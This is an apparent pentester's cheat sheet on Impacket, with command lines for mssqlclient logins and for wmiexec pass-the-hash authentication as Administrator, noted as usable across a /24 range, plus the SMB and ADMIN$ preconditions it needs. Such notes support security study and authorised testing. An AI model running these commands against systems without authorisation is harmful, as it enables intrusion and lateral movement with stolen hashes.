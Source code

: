 ### Impacket

#### mssqlclient
`impacket-mssqlclient $user:$pass@$target -windows-auth`

#### psexec 

#### wmiexec
- `impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@$target` (can be 0/24)
	- Requires an SMB connection through the firewall, the Windows File and Printer Sharing feature must be enabled, and the admin share called ADMIN$ must be available. 

